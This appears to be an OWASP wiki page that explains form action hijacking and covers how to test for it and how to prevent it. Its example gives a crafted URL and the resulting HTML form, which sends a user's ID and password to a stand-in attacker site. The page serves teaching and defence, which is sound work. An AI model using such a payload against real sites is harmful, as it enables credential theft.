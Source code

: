 ```yaml
---

layout: col-sidebar
title: Form action hijacking
author: 
contributors: 
permalink: /attacks/Form_action_hijacking
tag: attack, Form action hijacking
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use a whitelist of allowed URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

    https://vulnerablehost.com/?url=https://attackersite.com

Source:

    <form name="form1" id="form1" method="post" action="https://attackersite.com">
        <input type="text" name="id" value="user name">
        <input type="password" name="pass" value="password">
        <input type="submit" name="submit" value="Submit">
    </form>

## References

  - [Common Weakness Enumeration - CWE-20: Improper Input
    Validation](https://cwe.mitre.org/data/definitions/20.html)
  - [PortSwigger: Form action hijacking
    (reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
  - [PortSwigger: Form action hijacking
    (stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)

[Category:Input Validation
Vulnerability](Category:Input_Validation_Vulnerability "wikilink")
[Category:OWASP Top Ten
Project](Category:OWASP_Top_Ten_Project "wikilink") [Category:
Attack](Category:_Attack "wikilink")